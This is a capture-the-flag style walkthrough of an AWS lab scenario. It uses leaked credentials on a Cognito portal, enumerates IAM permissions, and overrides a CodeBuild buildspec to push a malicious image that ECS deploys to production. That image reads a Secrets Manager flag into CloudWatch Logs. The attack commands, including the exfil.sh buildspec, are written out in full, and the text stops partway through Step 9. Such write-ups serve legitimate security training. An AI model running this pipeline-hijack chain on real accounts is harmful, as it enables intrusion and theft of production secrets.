


# Walkthrough

## Environment

All commands run in a **Linux/Mac terminal or WSL**.

> The web portal (Step 1) is browser-only for reconnaissance — no direct interaction required beyond reading what's exposed.

---

## Step 1: Reconnaissance

```bash
cd scenarios/aws/03-supply-chain/dam-breaks/terraform
terraform output scenario_entrypoint_url
```

Open the URL in your browser. The **BeaverPay Developer Portal** loads — a B2B collaborator portal.



Two information cards are visible without logging in. The **Access Information** card exposes the authentication configuration directly:

| Field | Value |
|-------|-------|
| Auth Endpoint | `cognito-idp.us-east-1.amazonaws.com` |
| Auth Flow | `USER_PASSWORD_AUTH` |
| MFA | `Optional` |

Key findings:
- **`USER_PASSWORD_AUTH`** — username/password submitted directly to Cognito, no SRP challenge
- **MFA: Optional** — not enforced, no second factor required → credential stuffing succeeds immediately
- **Collaborator Resources card** — lists CodeBuild, ECR, ECS Fargate → confirms what AWS services are in scope

The `/config` endpoint returns the Cognito IDs needed for all subsequent API calls:

```bash
curl -s http://<portal-ip>/config | python3 -m json.tool
```

Output:
```json
{
  "clientId": "xxxxxxxxxxxxxxxxxxxxxxxxxx",
  "poolId": "us-east-1_xxxxxxxxx",
  "identityPoolId": "us-east-1:xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx",
  "accountId": "123456789012",
  "region": "us-east-1"
}
```

---

## Step 2: Cognito Authentication

### Step 2-1: Credential Stuffing

`USER_PASSWORD_AUTH` with MFA not enforced means any valid username/password pair authenticates immediately — no second factor, no adaptive challenge.

The target domain is `ottercode.kr`. Test known breached credentials directly against the Cognito endpoint:

```bash
aws cognito-idp initiate-auth \
  --auth-flow USER_PASSWORD_AUTH \
  --client-id "<clientId from /config>" \
  --auth-parameters USERNAME=j.park@ottercode.kr,PASSWORD=Otter2022! \
  --region us-east-1
```

Output:
```json
{
  "AuthenticationResult": {
    "AccessToken": "...",
    "IdToken": "eyJ...",
    "RefreshToken": "..."
  }
}
```

No MFA challenge. Authentication succeeds on first attempt. `j.park@ottercode.kr` is an active OtterCode collaborator account.

> **Why this works:** Cognito with `USER_PASSWORD_AUTH` and MFA set to Optional has no built-in rate limiting by default. Credential stuffing against the endpoint is indistinguishable from normal login traffic without Advanced Security Features (ASF) enabled.

### Step 2-2: Log in via the Developer Portal

Open the portal URL in your browser. Enter the credentials:

- Email: `j.park@ottercode.kr`
- Password: `Otter2022!`



The portal authenticates against Cognito User Pool using `USER_PASSWORD_AUTH` — no MFA challenge fires because MFA is not enforced.

After login, the dashboard automatically exchanges the Cognito JWT for temporary AWS credentials via the Identity Pool and displays them ready to copy.

Click **Copy as env vars** and paste into your terminal:

```bash
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="xxxxxxxx"
export AWS_SESSION_TOKEN="IQoJ..."
export AWS_DEFAULT_REGION="us-east-1"
```

### Step 2-3: Verify Identity

```bash
aws sts get-caller-identity
```

Output:
```json
{
  "Arn": "arn:aws:sts::123456789012:assumed-role/dam-breaks-CollaboratorDeveloperRole-xxxxxxxx/CognitoIdentityCredentials"
}
```

You are now authenticated as `CollaboratorDeveloperRole` — a role with limited but exploitable AWS permissions.

> **Under the hood:** The portal calls `cognito-identity:GetId` then `cognito-identity:GetCredentialsForIdentity` client-side using your IdToken. The Identity Pool maps authenticated Cognito users to `CollaboratorDeveloperRole` via `AssumeRoleWithWebIdentity`.

---

## Step 3: IAM Enumeration

### Step 3-1: Read the policy document

You have credentials. First question: what can this role actually do?

The ARN from Step 2-3 gives you the role name immediately:

```
arn:aws:sts::123456789012:assumed-role/dam-breaks-CollaboratorDeveloperRole-xxxxxxxx/CognitoIdentityCredentials
```

This is an assumed-role, not an IAM user. User-based enumeration commands fail immediately:

```bash
aws iam get-user
# Error: Must specify userName when calling with non-User credentials.
```

Read the role's inline policy directly:

```bash
ROLE_NAME="dam-breaks-CollaboratorDeveloperRole-xxxxxxxx"

aws iam list-role-policies --role-name "$ROLE_NAME"
# { "policyNames": ["dam-breaks-collaborator-policy-xxxxxxxx"] }

aws iam get-role-policy \
  --role-name "$ROLE_NAME" \
  --policy-name "dam-breaks-collaborator-policy-xxxxxxxx"
```

Also check for managed policy attachments — a managed policy could grant permissions not visible in the inline policy:

```bash
aws iam list-attached-role-policies --role-name "$ROLE_NAME"
```

Output:
```json
{
  "AttachedPolicies": []
}
```

No managed policies attached. All permissions are in the inline policy above.

The policy document tells you what the policy *allows on paper*. It is not a complete picture — SCPs, permission boundaries, and resource-level restrictions can silently block actions that look allowed. But scanning the document reveals something useful: `iam:SimulatePrincipalPolicy` is granted.

### Step 3-2: Enumerate effective permissions

`iam:SimulatePrincipalPolicy` is a native AWS API that evaluates effective permissions — including SCPs and permission boundaries — without making real API calls. No tooling required. An attacker who spots this permission in the policy document uses it immediately to map the full attack surface in one shot.

```bash
ROLE_ARN="arn:aws:iam::123456789012:role/dam-breaks-CollaboratorDeveloperRole-xxxxxxxx"

aws iam simulate-principal-policy \
  --policy-source-arn "$ROLE_ARN" \
  --action-names \
    "codebuild:ListProjects" \
    "codebuild:BatchGetProjects" \
    "codebuild:StartBuild" \
    "codebuild:BatchGetBuilds" \
    "codebuild:UpdateProject" \
    "ecr:GetAuthorizationToken" \
    "ecr:DescribeRepositories" \
    "ecr:DescribeImages" \
    "ecr:PutImage" \
    "ecs:ListClusters" \
    "ecs:DescribeServices" \
    "ecs:DescribeTaskDefinition" \
    "ecs:ListTasks" \
    "ecs:DescribeTasks" \
    "iam:GetRolePolicy" \
    "iam:ListRolePolicies" \
    "iam:ListAttachedRolePolicies" \
    "iam:ListRoles" \
    "iam:AttachRolePolicy" \
    "iam:SimulatePrincipalPolicy" \
    "logs:DescribeLogGroups" \
    "logs:DescribeLogStreams" \
    "logs:GetLogEvents" \
    "logs:FilterLogEvents" \
    "secretsmanager:GetSecretValue" \
    "secretsmanager:DescribeSecret" \
    "secretsmanager:ListSecrets" \
    "s3:ListAllMyBuckets" \
    "ssm:GetParameter" \
    "ssm:DescribeParameters" \
  --query 'EvaluationResults[*].{Action:EvalActionName,Decision:EvalDecision}' \
  --output table \
  --region us-east-1
```

Output:
```
------------------------------------------------------
|              SimulatePrincipalPolicy               |
+--------------------------------+-------------------+
|             Action             |     Decision      |
+--------------------------------+-------------------+
|  codebuild:BatchGetBuilds      |  allowed          |
|  codebuild:BatchGetProjects    |  allowed          |
|  codebuild:ListProjects        |  allowed          |
|  codebuild:StartBuild          |  allowed          |  ← key finding
|  codebuild:UpdateProject       |  implicitDeny     |
|  ecr:DescribeImages            |  allowed          |
|  ecr:DescribeRepositories      |  allowed          |
|  ecr:GetAuthorizationToken     |  allowed          |
|  ecr:PutImage                  |  implicitDeny     |  ← direct push blocked
|  ecs:DescribeServices          |  allowed          |
|  ecs:DescribeTaskDefinition    |  allowed          |
|  ecs:DescribeTasks             |  allowed          |
|  ecs:ListClusters              |  allowed          |
|  ecs:ListTasks                 |  allowed          |
|  iam:AttachRolePolicy          |  implicitDeny     |
|  iam:GetRolePolicy             |  allowed          |  ← can read own role's policy
|  iam:ListAttachedRolePolicies  |  allowed          |
|  iam:ListRolePolicies          |  allowed          |
|  iam:ListRoles                 |  implicitDeny     |
|  iam:SimulatePrincipalPolicy   |  allowed          |
|  logs:DescribeLogGroups        |  allowed          |
|  logs:DescribeLogStreams        |  allowed          |
|  logs:FilterLogEvents          |  allowed          |
|  logs:GetLogEvents             |  allowed          |
|  s3:ListAllMyBuckets           |  implicitDeny     |
|  secretsmanager:DescribeSecret |  implicitDeny     |
|  secretsmanager:GetSecretValue |  implicitDeny     |  ← direct flag read blocked
|  secretsmanager:ListSecrets    |  implicitDeny     |
|  ssm:DescribeParameters        |  implicitDeny     |
|  ssm:GetParameter              |  implicitDeny     |
+--------------------------------+-------------------+
```

The denied list shapes the attack path as much as the allowed list:
- `ecr:PutImage` denied — direct ECR push is not an option
- `secretsmanager:GetSecretValue` denied — the flag cannot be read directly
- `codebuild:StartBuild` allowed — the only remaining question is whether CodeBuild's own service role can push to ECR

The only viable path to the flag appears to be through the build pipeline. Whether that path is actually open depends on what the CodeBuild service role and ECS Task Role can do — that gets verified in the reconnaissance steps ahead.

### Step 3-3: Verify the buildspec is unrestricted

`codebuild:StartBuild` being allowed raises the immediate question: **is there an IAM Condition locking down which buildspec can be used?**

A secure policy would include:

```json
{
  "Condition": {
    "StringEquals": {
      "codebuild:buildspec": "buildspec.yaml"
    }
  }
}
```

Read the CodeBuild statement from the policy directly:

```bash
aws iam get-role-policy \
  --role-name "dam-breaks-CollaboratorDeveloperRole-xxxxxxxx" \
  --policy-name "dam-breaks-collaborator-policy-xxxxxxxx" \
  --query 'PolicyDocument.Statement[?Sid==`CodeBuildAccess`]'
```

Output:
```json
[
  {
    "Sid": "CodeBuildAccess",
    "Effect": "Allow",
    "Action": [
      "codebuild:ListProjects",
      "codebuild:BatchGetProjects",
      "codebuild:StartBuild",
      "codebuild:BatchGetBuilds"
    ],
    "Resource": "*"
  }
]
```

No `Condition` block. `--buildspec-override` accepts any arbitrary buildspec. The attack path is confirmed.

Key findings:
- `codebuild:StartBuild` with no Condition → `buildspecOverride` is unrestricted
- `ecr:PutImage` denied → ECR push must go through CodeBuild's service role
- `secretsmanager:GetSecretValue` denied → requires ECS Task Role — readable via CloudWatch Logs exfiltration

---

## Step 4: CodeBuild Reconnaissance

`codebuild:StartBuild` is confirmed with no IAM Condition. Before writing a malicious buildspec, map the build environment: what projects exist, what environment variables they expose, and which service role they use.

```bash
aws codebuild list-projects --region us-east-1
```

Output:
```json
{
  "projects": [
    "dam-breaks-webapp-qa-build-xxxxxxxx",
    "dam-breaks-webapp-prod-build-xxxxxxxx"
  ]
}
```

Two projects: `qa` and `prod`. Inspect both — the QA project might share the same service role and environment variables as prod, making it a safer target to test the buildspec injection on first.

```bash
aws codebuild batch-get-projects \
  --names "dam-breaks-webapp-qa-build-xxxxxxxx" \
  --region us-east-1 \
  --query 'projects[0].{serviceRole:serviceRole,envVars:environment.environmentVariables}'
```

Output:
```json
{
  "serviceRole": "arn:aws:iam::123456789012:role/dam-breaks-CodeBuildProdServiceRole-xxxxxxxx",
  "envVars": [
    { "name": "REPOSITORY_URI",    "value": "123456789012.dkr.ecr.us-east-1.amazonaws.com/dam-breaks-beaverpay-webapp-xxxxxxxx" },
    { "name": "AWS_DEFAULT_REGION","value": "us-east-1" }
  ]
}
```

QA uses the same service role — same `ecr:PutImage` permissions. But it has no `ECS_CLUSTER`, `ECS_SERVICE`, or `SECRET_ARN` env vars. A buildspec injected into QA cannot force-deploy to ECS or reference the flag ARN. The prod project must be used.

```bash
aws codebuild batch-get-projects \
  --names "dam-breaks-webapp-prod-build-xxxxxxxx" \
  --region us-east-1 \
  --query 'projects[0].{serviceRole:serviceRole,envVars:environment.environmentVariables,privilegedMode:environment.privilegedMode}'
```

Output:
```json
{
  "serviceRole": "arn:aws:iam::123456789012:role/dam-breaks-CodeBuildProdServiceRole-xxxxxxxx",
  "envVars": [
    { "name": "REPOSITORY_URI", "value": "123456789012.dkr.ecr.us-east-1.amazonaws.com/dam-breaks-beaverpay-webapp-xxxxxxxx" },
    { "name": "AWS_DEFAULT_REGION", "value": "us-east-1" },
    { "name": "ECS_CLUSTER",  "value": "dam-breaks-prod-cluster-xxxxxxxx" },
    { "name": "ECS_SERVICE",  "value": "dam-breaks-webapp-service-xxxxxxxx" },
    { "name": "SECRET_ARN",   "value": "arn:aws:secretsmanager:us-east-1:123456789012:secret:beaverpay/prod/flag-xxxxxxxx" }
  ],
  "privilegedMode": true
}
```

Three things confirmed at once:
- `ECS_CLUSTER`, `ECS_SERVICE`, `SECRET_ARN` — all exposed, available inside any build even when buildspec is fully replaced via `buildspecOverride`
- Service role ARN — the attack depends on this role having `ecr:PutImage`
- `privilegedMode: true` — Docker commands will work inside the build environment; `false` would cause `docker build` to fail immediately

Verify the service role has `ecr:PutImage` — the Collaborator role cannot push directly, so this is a hard requirement:

```bash
CODEBUILD_ROLE_NAME="dam-breaks-CodeBuildProdServiceRole-xxxxxxxx"

aws iam list-role-policies --role-name "$CODEBUILD_ROLE_NAME" --region us-east-1
```

Output:
```json
{
  "policyNames": ["dam-breaks-codebuild-policy-xxxxxxxx"]
}
```

```bash
aws iam get-role-policy \
  --role-name "$CODEBUILD_ROLE_NAME" \
  --policy-name "dam-breaks-codebuild-policy-xxxxxxxx" \
  --query 'PolicyDocument.Statement' \
  --region us-east-1
```

Output:
```json
[
  {
    "Sid": "ECRAccess",
    "Effect": "Allow",
    "Action": [
      "ecr:GetAuthorizationToken",
      "ecr:BatchCheckLayerAvailability",
      "ecr:GetDownloadUrlForLayer",
      "ecr:BatchGetImage",
      "ecr:PutImage",
      "ecr:InitiateLayerUpload",
      "ecr:UploadLayerPart",
      "ecr:CompleteLayerUpload"
    ],
    "Resource": "*"
  },
  {
    "Sid": "ECSUpdateService",
    "Effect": "Allow",
    "Action": "ecs:UpdateService",
    "Resource": "arn:aws:ecs:us-east-1:123456789012:service/dam-breaks-prod-cluster-xxxxxxxx/dam-breaks-webapp-service-xxxxxxxx"
  }
]
```

`ecr:PutImage` confirmed. `ecs:UpdateService` also present and scoped to the prod service — the `post_build` force-deploy call succeeds without touching the Collaborator role's permissions at all.

Also confirm no managed policies are attached — a managed policy could grant permissions not visible in the inline policy:

```bash
aws iam list-attached-role-policies --role-name "$CODEBUILD_ROLE_NAME" --region us-east-1
```

Output:
```json
{
  "AttachedPolicies": []
}
```

No managed policies attached. All permissions are in the inline policy above.

One more check before moving on: does the CodeBuild service role have `secretsmanager:GetSecretValue` directly? If yes, the flag can be read straight from the buildspec — no ECS needed.

```bash
aws iam simulate-principal-policy \
  --policy-source-arn "arn:aws:iam::123456789012:role/dam-breaks-CodeBuildProdServiceRole-xxxxxxxx" \
  --action-names \
    "secretsmanager:GetSecretValue" \
    "secretsmanager:DescribeSecret" \
    "sts:AssumeRole" \
  --query 'EvaluationResults[*].{Action:EvalActionName,Decision:EvalDecision}' \
  --output table \
  --region us-east-1
```

Output:
```
+--------------------------------+-------------------+
|             Action             |     Decision      |
+--------------------------------+-------------------+
|  secretsmanager:DescribeSecret |  implicitDeny     |
|  secretsmanager:GetSecretValue |  implicitDeny     |
|  sts:AssumeRole                |  implicitDeny     |
+--------------------------------+-------------------+
```

CodeBuild cannot read Secrets Manager directly and cannot assume other roles. The flag must be read by the ECS task after deployment — the attack path must go through ECR → ECS → CloudWatch Logs.

---

## Step 5: ECR Reconnaissance

The attack requires pushing a malicious image to ECR. Direct `ecr:PutImage` is denied — the only path is through CodeBuild's service role. Before writing the buildspec, confirm the target repository's tag mutability.

```bash
aws ecr describe-repositories \
  --region us-east-1 \
  --query 'repositories[0].{name:repositoryName,uri:repositoryUri,mutability:imageTagMutability}'
```

Output:
```json
{
  "name": "dam-breaks-beaverpay-webapp-xxxxxxxx",
  "uri": "123456789012.dkr.ecr.us-east-1.amazonaws.com/dam-breaks-beaverpay-webapp-xxxxxxxx",
  "mutability": "MUTABLE"
}
```

`MUTABLE` — the `:latest` tag can be overwritten without restriction.

Record the current `:latest` digest. After the attack, a different digest under the same tag confirms the image was silently replaced.

```bash
aws ecr describe-images \
  --repository-name "dam-breaks-beaverpay-webapp-xxxxxxxx" \
  --image-ids imageTag=latest \
  --region us-east-1 \
  --query 'imageDetails[0].{digest:imageDigest,pushedAt:imagePushedAt}'
```

Output:
```json
{
  "digest": "sha256:aabb1234...",
  "pushedAt": "2026-05-10T10:00:00+00:00"
}
```

---

## Step 6: ECS Reconnaissance

Tag mutability is confirmed. Now verify the ECS side: will a new image auto-deploy, or is there a manual approval gate? And does the Task Role have `secretsmanager:GetSecretValue`? A malicious container that deploys but cannot read the secret is useless.

```bash
aws ecs describe-services \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --services "dam-breaks-webapp-service-xxxxxxxx" \
  --region us-east-1 \
  --query 'services[0].{deploymentController:deploymentController,circuitBreaker:deploymentConfiguration.deploymentCircuitBreaker,desiredCount:desiredCount,runningCount:runningCount,taskDefinition:taskDefinition}'
```

Output:
```json
{
  "deploymentController": { "type": "ECS" },
  "circuitBreaker": { "enable": false, "rollback": false },
  "desiredCount": 1,
  "runningCount": 1,
  "taskDefinition": "arn:aws:ecs:us-east-1:123456789012:task-definition/dam-breaks-webapp-xxxxxxxx:1"
}
```

`desiredCount: 1` — `force-new-deployment` will actually start a new task. If `desiredCount: 0`, the deployment triggers but no container ever runs. The `taskDefinition` ARN gives the family name needed for the next call.

```bash
aws ecs describe-task-definition \
  --task-definition "dam-breaks-webapp-xxxxxxxx" \
  --region us-east-1 \
  --query 'taskDefinition.{taskRoleArn:taskRoleArn,image:containerDefinitions[0].image,logConfig:containerDefinitions[0].logConfiguration,environment:containerDefinitions[0].environment}'
```

Output:
```json
{
  "taskRoleArn": "arn:aws:iam::123456789012:role/dam-breaks-ecs-task-role-xxxxxxxx",
  "image": "123456789012.dkr.ecr.us-east-1.amazonaws.com/dam-breaks-beaverpay-webapp-xxxxxxxx:latest",
  "logConfig": {
    "logDriver": "awslogs",
    "options": {
      "awslogs-group": "/ecs/dam-breaks-webapp-xxxxxxxx",
      "awslogs-region": "us-east-1",
      "awslogs-stream-prefix": "ecs"
    }
  },
  "environment": [
    { "name": "NODE_ENV",           "value": "production" },
    { "name": "AWS_DEFAULT_REGION", "value": "us-east-1" }
  ]
}
```

Four things confirmed at once:
- Task role ARN for permission verification
- Image references `:latest` → overwriting `:latest` in ECR will be picked up on the next deploy
- Log group name `/ecs/dam-breaks-webapp-xxxxxxxx` — this is where the container's stdout goes, needed in Step 9
- No secrets hardcoded in container environment variables — the full ECR → ECS → CloudWatch Logs attack chain is required

Record the current running task ARN to know which task is new after the attack:

```bash
aws ecs list-tasks \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --service-name "dam-breaks-webapp-service-xxxxxxxx" \
  --region us-east-1
```

Output:
```json
{
  "taskArns": [
    "arn:aws:ecs:us-east-1:123456789012:task/dam-breaks-prod-cluster-xxxxxxxx/aabb1122ccdd"
  ]
}
```

Describe the current task to confirm the container has outbound network access — the malicious container needs to reach AWS APIs (Secrets Manager, CloudWatch Logs):

```bash
aws ecs describe-tasks \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --tasks "arn:aws:ecs:us-east-1:123456789012:task/dam-breaks-prod-cluster-xxxxxxxx/aabb1122ccdd" \
  --region us-east-1 \
  --query 'tasks[0].attachments[0].details'
```

Output:
```json
[
  { "name": "subnetId",           "value": "subnet-xxxxxxxx" },
  { "name": "networkInterfaceId", "value": "eni-xxxxxxxx" },
  { "name": "macAddress",         "value": "xx:xx:xx:xx:xx:xx" },
  { "name": "privateIPv4Address", "value": "10.10.1.x" },
  { "name": "publicIPv4Address",  "value": "3.x.x.x" }
]
```

`publicIPv4Address` is assigned — the task runs in a public subnet with outbound internet access. AWS API calls from inside the container will succeed.

A Task Role ARN alone proves nothing. The plan requires this role to have `secretsmanager:GetSecretValue` on the specific flag secret — if it doesn't, the container deploys and silently fails. Verify directly.

```bash
TASK_ROLE_NAME="dam-breaks-ecs-task-role-xxxxxxxx"

aws iam list-role-policies --role-name "$TASK_ROLE_NAME" --region us-east-1
```

Output:
```json
{
  "policyNames": ["dam-breaks-ecs-task-policy-xxxxxxxx"]
}
```

```bash
aws iam get-role-policy \
  --role-name "$TASK_ROLE_NAME" \
  --policy-name "dam-breaks-ecs-task-policy-xxxxxxxx" \
  --region us-east-1
```

Output:
```json
{
  "Statement": [
    {
      "Sid": "SecretsManagerAccess",
      "Effect": "Allow",
      "Action": "secretsmanager:GetSecretValue",
      "Resource": [
        "arn:aws:secretsmanager:us-east-1:123456789012:secret:beaverpay/prod/db-master-credentials-*",
        "arn:aws:secretsmanager:us-east-1:123456789012:secret:beaverpay/prod/payment-gateway-api-key-*",
        "arn:aws:secretsmanager:us-east-1:123456789012:secret:beaverpay/prod/flag-*"
      ]
    }
  ]
}
```

Also confirm no managed policies are attached:

```bash
aws iam list-attached-role-policies --role-name "$TASK_ROLE_NAME" --region us-east-1
```

Output:
```json
{
  "AttachedPolicies": []
}
```

No managed policies attached. `secretsmanager:GetSecretValue` is granted on the flag secret ARN. The container will inherit these credentials automatically via `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI` — no configuration needed inside the container.

Before committing to the full attack, scan the existing CloudWatch logs from the legitimate running container. If the app already prints the secret to stdout, the ECR injection is unnecessary.

```bash
aws logs filter-log-events \
  --log-group-name "/ecs/dam-breaks-webapp-xxxxxxxx" \
  --filter-pattern "secret OR password OR key OR flag" \
  --region us-east-1 \
  --query 'events[*].message'
```

Output:
```json
[]
```

No sensitive output from the legitimate container. The full ECR → ECS → CloudWatch Logs attack chain is required.

Key findings:
- Rolling deployment (`ECS`) — no manual approval gate, new image deploys automatically
- Circuit breaker disabled — a failed container will not auto-rollback or trigger alerts
- `:latest` tag referenced — overwriting ECR `:latest` triggers deployment immediately
- Task Role has `secretsmanager:GetSecretValue` on all 3 production secrets (db credentials, payment key, flag) — over-provisioned, but flag read is confirmed
- Existing logs contain no secrets — ECR injection is the only path

All prerequisites confirmed. The attack chain is viable end-to-end.

---

## Step 7: buildspec-override Attack

### Step 7-1: Create malicious buildspec

The attack chain is now fully mapped:

1. `codebuild:StartBuild` + no Condition → buildspec is fully replaceable
2. CodeBuild service role has ECR push permissions → malicious image can reach ECR
3. ECR tag is `MUTABLE` → `:latest` can be overwritten silently
4. ECS rolling deploy with no approval gate → new image deploys automatically
5. ECS Task Role has `secretsmanager:GetSecretValue` → container reads the flag on startup
6. CloudWatch Logs captures stdout → flag is readable via `logs:FilterLogEvents`

The malicious image needs no reverse shell. It only calls one AWS API and writes the result to stdout. CloudWatch Logs is already configured on this cluster — stdout is captured automatically.

```bash
cat > /tmp/buildspec.json << 'EOF'
{
  "version": "0.2",
  "phases": {
    "pre_build": {
      "commands": [
        "aws ecr get-login-password --region us-east-1 | docker login --username AWS --password-stdin $REPOSITORY_URI"
      ]
    },
    "build": {
      "commands": [
        "mkdir -p /tmp/app",
        "echo '#!/bin/sh' > /tmp/app/exfil.sh",
        "echo \"aws secretsmanager get-secret-value --secret-id $SECRET_ARN --region us-east-1 --query SecretString --output text\" >> /tmp/app/exfil.sh",
        "echo 'sleep infinity' >> /tmp/app/exfil.sh",
        "printf 'FROM public.ecr.aws/docker/library/alpine:3\\nRUN apk add --no-cache aws-cli\\nCOPY exfil.sh /exfil.sh\\nRUN chmod +x /exfil.sh\\nCMD [\"/exfil.sh\"]\\n' > /tmp/app/Dockerfile",
        "docker build -t $REPOSITORY_URI:latest /tmp/app/"
      ]
    },
    "post_build": {
      "commands": [
        "docker push $REPOSITORY_URI:latest",
        "aws ecs update-service --cluster $ECS_CLUSTER --service $ECS_SERVICE --force-new-deployment --region us-east-1"
      ]
    }
  }
}
EOF
```

> `$SECRET_ARN` is expanded during the CodeBuild build phase and baked into `exfil.sh`. When the ECS container runs, it uses the hardcoded ARN — no CodeBuild environment variables are passed through to ECS.

> `$ECS_CLUSTER`, `$ECS_SERVICE` are inherited from the CodeBuild project's environment variables (Step 4). They remain available even when the buildspec is fully replaced via `buildspecOverride`.

### Step 7-2: Execute malicious build

```bash
aws codebuild start-build \
  --project-name "dam-breaks-webapp-prod-build-xxxxxxxx" \
  --buildspec-override file:///tmp/buildspec.json \
  --region us-east-1 \
  --query 'build.{id:id,status:buildStatus}'
```

Output:
```json
{
    "id": "dam-breaks-webapp-prod-build-xxxxxxxx:<build-uuid>",
    "status": "IN_PROGRESS"
}
```

Copy the `id` value, then poll for completion:

```bash
BUILD_ID="dam-breaks-webapp-prod-build-xxxxxxxx:<build-uuid>"

aws codebuild batch-get-builds \
  --ids "$BUILD_ID" \
  --region us-east-1 \
  --query 'builds[0].buildStatus'
```

Expected output:
```
"SUCCEEDED"
```

> **Note:** The Git repository is untouched. Code modification occurred only inside the build server's ephemeral environment.

---

## Step 8: ECS Deployment

The malicious buildspec's `post_build` phase calls `aws ecs update-service --force-new-deployment`. The CodeBuild service role has `ecs:UpdateService` — this call is not blocked. ECS starts a rolling deployment with the new `:latest` image.

```bash
aws ecs wait services-stable \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --services "dam-breaks-webapp-service-xxxxxxxx" \
  --region us-east-1
```

Verify the service is stable:

```bash
aws ecs describe-services \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --services "dam-breaks-webapp-service-xxxxxxxx" \
  --region us-east-1 \
  --query 'services[0].{running:runningCount,pending:pendingCount,desired:desiredCount}'
```

Expected output:
```json
{
    "running": 1,
    "pending": 0,
    "desired": 1
}
```

Once `running` equals `desired` and `pending` is 0, a new task is running. Verify it is actually the malicious image — not the original container recovering:

```bash
NEW_TASK_ARN=$(aws ecs list-tasks \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --service-name "dam-breaks-webapp-service-xxxxxxxx" \
  --region us-east-1 \
  --query 'taskArns[0]' \
  --output text)

aws ecs describe-tasks \
  --cluster "dam-breaks-prod-cluster-xxxxxxxx" \
  --tasks "$NEW_TASK_ARN" \
  --region us-east-1 \
  --query 'tasks[0].containers[0].{image:image,status:lastStatus}'
```

Output:
```json
{
  "image": "123456789012.dkr.ecr.us-east-1.amazonaws.com/dam-breaks-beaverpay-webapp-xxxxxxxx:latest",
  "status": "RUNNING"
}
```

The task ID is different from the one recorded in Step 6, confirming a new container started after the deployment.

---

## Step 9: FLAG Extraction via CloudWatch Logs

The container started, called `secretsmanager:GetSecretValue`, and wrote the result to stdout. The log group `/ecs/dam-breaks-webapp-xxxxxxxx` was discovered in Step 6 from the task definition. Find the log stream created by the new container. The newest stream is the malicious one — streams are named `ecs/<container-name>/<task-id>`:

```bash
aws logs describe-log-streams \
  --log-group-name "/ecs/dam-breaks-webapp-xxxxxxxx" \
  --order-by LastEventTime \
  --descending \
  --limit 3 \
  --region us-east-1 \
